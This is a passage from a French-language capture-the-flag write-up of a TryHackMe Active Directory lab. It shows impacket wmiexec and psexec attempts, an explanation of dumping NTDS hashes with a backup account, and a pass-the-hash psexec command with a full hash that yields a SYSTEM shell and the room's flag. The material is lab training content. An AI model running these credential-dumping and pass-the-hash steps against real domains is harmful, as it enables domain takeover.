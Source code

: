 - Je vais essayer `wmiexec`  pour cet utilisateur.


```terminal
└─# impacket-wmiexec spookysec.local/backup:backup2517860@10.10.237.76
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

Encore `psexec`

```terminal
└─# impacket-psexec spookysec.local/backup:backup2517860@10.10.237.76
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Requesting shares on 10.10.237.76.....
[-] share 'ADMIN$' is not writable.
[-] share 'backup' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
```

## Privilege Escalation
On dispose d'un compte `backup`, qui s'agit du compte de sauvegarde du controlleur de domaine. Avec ce compte on a plusieurs privilege, notamment considerer comme un administrateur du Domaine. C'est a dire qu'on peux dump la base de donnees `SAM/NTDS` qui contient des hashes de connexion de tout les utilisateurs
- Pour cela je vais utiliser `impacket-secretsdump` pour extraire ces donnees et ensuite me connecter grace aux `Pass-the-Hash`

![Hash](https://i.ibb.co/vjBm3C6/hash.png)

### Pass-The-Hash
```terminal
└─# impacket-psexec spookysec.local/Administrator@10.10.186.88 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Requesting shares on 10.10.186.88.....
[*] Found writable share ADMIN$
[*] Uploading file USvDLBYT.exe
[*] Opening SVCManager on 10.10.186.88.....
[*] Creating service hHMi on 10.10.186.88.....
[*] Starting service hHMi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
```


Thanks for reading.
### Join Us
**Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 